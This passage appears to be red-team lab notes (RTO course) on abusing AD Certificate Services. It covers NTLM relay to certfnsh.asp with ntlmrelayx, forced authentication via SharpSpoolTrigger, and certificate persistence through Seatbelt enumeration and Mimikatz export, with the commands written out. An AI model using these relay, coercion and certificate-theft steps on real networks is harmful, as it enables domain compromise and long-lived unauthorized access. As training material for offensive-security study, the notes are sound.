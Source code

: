 An important aspect to be aware of is that you cannot relay NTLM authentication back to the originating machine.  We therefore wouldn't be able to relay a DC to a CA if those services were running on the same machine.  This is indeed the case in the RTO lab, as each CA is running on a DC.

Another good way to abuse this primitive is by gaining access to a machine configured for unconstrained delegation.
- We already have access to WEB as jking, but this is another way of achieving the same end.

To achieve this, we need:

- PortBender on Workstation 2 to capture traffic on port 445 and redirect it to port 8445.
- A reverse port forward to forward traffic hitting port 8445 to the team server on port 445.
- A SOCKS proxy for ntlmrelayx to send traffic back into the network.

The ntlmrelayx command needs to target the certfnsh.asp page on the ADCS server.

    attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t https://10.10.122.10/certsrv/certfnsh.asp -smb2support --adcs --no-http-server

Then force the authentication to occur from WEB to WKSTN-2.

    beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe 10.10.122.30 10.10.123.102

The S4U2Self trick can be used to obtain usable TGS's to move laterally to it.

# User & Computer Persistence 

Certificates can also be useful for maintaining persistent access to both users and computers, because they tend to have a longer shelf-life compared to passwords.  For example, User certificates are valid for an entire year by default, regardless of password changes.

    CA Name             : dc-2.dev.cyberbotic.io\sub-ca
    Template Name       : User
    Schema Version      : 1
    Validity Period     : 1 year
    
Certificates only become invalid if they're revoked by the CA (or expire).  This also does not rely on any vulnerable templates.  We can extract certificates that have already been issued, or just request new ones.

## User Persistence 

User certificates that have already been issued can be found in the user's Personal Certificate store. If we have a Beacon running on their machine, we can enumerate their certificates with Seatbelt.

    beacon> getuid
    [*] You are DEV\nlamb
    
    beacon> run hostname
    wkstn-1

    beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates

- Always ensure the certificate is used for client authentication.

Certificates can be exported with Mimikatz using crypto::certificates (although it drops them to disk).
